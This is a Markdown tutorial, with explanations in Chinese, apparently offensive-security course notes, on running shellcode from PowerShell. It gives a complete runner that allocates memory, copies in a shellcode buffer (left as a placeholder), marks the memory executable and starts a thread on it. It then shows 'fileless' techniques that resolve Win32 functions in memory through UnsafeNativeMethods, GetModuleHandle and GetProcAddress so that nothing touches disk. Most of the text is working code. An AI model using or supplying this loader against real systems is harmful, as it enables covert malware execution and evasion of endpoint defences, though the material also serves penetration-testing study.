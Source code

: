 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器執行，但這樣的行為，C#程式碼和編譯後的暫存將會寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓程式碼持續留存在記憶體中而不被寫入硬碟，必須改用UnsafeNativeMethods尋找已存在的函式直接調用
- 利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
### Enumerate UnsafeNativeMethods Function
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies | 
	ForEach-Object {
	 $_.GetTypes() | 
	ForEach-Object { 
		$_ | Get-Member -Static| Where-Object {	   $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
	}
          } 2> $null 
}
```
### Enumerate UnsafeNativeMethods DLL Path
```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies() 
$Assemblies |
 	ForEach-Object {
	 $_.Location
	 $_.GetTypes()|
		 ForEach-Object {
		 $_ | Get-Member -Static| Where-Object { 
$_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
	 }
		 } 2> $null
 } 
```
### Invoke GetModuleHandle from System.dll
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And _.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$GetModuleHandle.Invoke($null, @("user32.dll")) 
```
- ![圖片2](https://user-images.githubusercontent.com/81568292/137424843-940c88b8-25b9-4e02-a950-4731d4e8895b.png)
### Invoke GetProcAddress from System.dll
```
$unsafeObj.GetMethods() | ForEachObject {If($_.Name -eq "GetProcAddress") {$_}}
```
- ![image](https://user-images.githubusercontent.com/81568292/137425483-e7e38c40-9864-420f-9bb4-d2b9327b78e6.png)
### Get MessageBoxA
```
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }) 
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods') 
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle') 
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll")) 
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} 
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```
### Dynamic Lookup Function
```
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1]. Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    
    return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}
```
- $MessageBoxA = LookupFunc user32.dll MessageBoxA
